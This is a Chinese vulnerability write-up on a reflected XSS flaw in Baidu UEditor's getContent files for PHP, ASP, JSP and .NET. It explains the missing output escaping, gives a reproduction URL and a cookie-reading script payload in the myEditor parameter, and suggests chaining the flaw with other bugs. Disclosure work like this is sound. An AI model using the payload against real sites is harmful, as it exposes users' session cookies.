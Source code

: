 百度ueditor编辑器 xss漏洞
=========================

一、漏洞简介
------------

产品官网下载地址：

<https://ueditor.baidu.com/website/download.html#mini>

涉及版本：php , asp, jsp, net

二、漏洞影响
------------

三、复现过程
------------

### 漏洞分析

存在漏洞的文件：

    /php/getContent.php
    /asp/getContent.asp
    /jsp/getContent.jsp
    /net/getContent.ashx

#### /php/getContent.php

![](./resource/百度ueditor编辑器xss漏洞/media/rId27.png)

入进行了过滤，但是在14行输出时却使用了htmlspecialchars\_decode，造成XSS漏洞。

#### /asp/getContent.asp

![](./resource/百度ueditor编辑器xss漏洞/media/rId29.png)

获取myEditor参数无过滤，直接输出。

#### /jsp/getContent.jsp

![](./resource/百度ueditor编辑器xss漏洞/media/rId31.png)

获取myEditor参数无过滤，直接输出。

#### /net/getContent.ashx

![](./resource/百度ueditor编辑器xss漏洞/media/rId33.png)

获取myEditor参数无过滤，直接输出。

### 漏洞复现

php版本测试，其他版本一样。

![](./resource/百度ueditor编辑器xss漏洞/media/rId35.png)

url:

    http://0-sec.org/php/getcontent.php

payload:

    myEditor=<script>alert(document.cookie)</script>
    // myEditor中的’ E ’必须大写，小写无效。

由于只是个反弹XSS，单独这个漏洞影响小。若能结合使用该编辑器的网站的其他漏洞使用，则可能产生不错的效果。

四、参考链接
------------

> <https://blog.csdn.net/yun2diao/article/details/91381846>
